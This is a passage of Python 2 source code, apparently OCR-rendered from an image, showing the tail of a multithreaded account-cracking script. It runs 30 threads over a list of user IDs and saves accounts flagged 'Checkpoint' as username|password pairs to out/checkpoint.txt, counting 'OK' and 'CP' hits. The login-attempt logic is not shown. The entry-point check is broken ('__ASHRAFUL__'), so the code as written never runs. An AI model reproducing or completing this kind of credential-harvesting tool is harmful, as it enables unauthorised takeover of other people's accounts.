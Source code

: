 																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																	cek = open("out/checkpoint.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

																	

															

		except:

			pass

		

	p = ThreadPool(30)

	p.map(main, id)

	print 42*"\033[1;96m="

	print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'

	print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))

	print("\033[1;96m[+] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt")

	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")

	menu()

if __name__ == '__ASHRAFUL__':

	login()
